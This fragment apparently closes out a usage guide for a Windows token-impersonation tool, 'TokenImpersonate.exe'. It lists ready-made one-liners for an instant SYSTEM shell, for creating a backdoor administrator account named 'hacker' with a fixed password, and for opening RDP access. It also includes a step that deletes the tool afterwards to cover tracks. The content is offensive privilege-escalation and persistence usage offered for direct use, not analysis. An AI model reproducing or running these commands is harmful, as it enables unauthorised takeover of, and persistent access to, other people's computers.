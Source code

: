 # 7. Clean up
del TokenImpersonate.exe

⚡ ONE-LINER WINS
powershell# Instant SYSTEM shell
.\TokenImpersonate.exe auto

# Instant admin user
.\TokenImpersonate.exe brute Administrator adduser hacker Pass123!

# Instant RDP access
.\TokenImpersonate.exe 540 adduser hacker Pass123! ; .\TokenImpersonate.exe 540 rdp

# Use current process (cleanest)
.\TokenImpersonate.exe $pid adduser hacker Pass123!
